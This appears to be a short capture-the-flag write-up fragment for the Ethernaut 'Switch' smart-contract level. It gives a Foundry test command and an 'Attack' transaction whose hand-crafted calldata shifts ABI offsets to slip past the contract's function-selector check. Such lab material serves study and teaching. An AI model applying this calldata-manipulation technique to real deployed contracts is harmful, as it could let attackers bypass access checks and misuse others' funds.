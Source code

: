 ### Test

```
$ forge test -vvvv --match-contract="SwitchTest"
```

### Attack

```shell
$ await sendTransaction({from: player, to: instance, data:"0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000"})
```
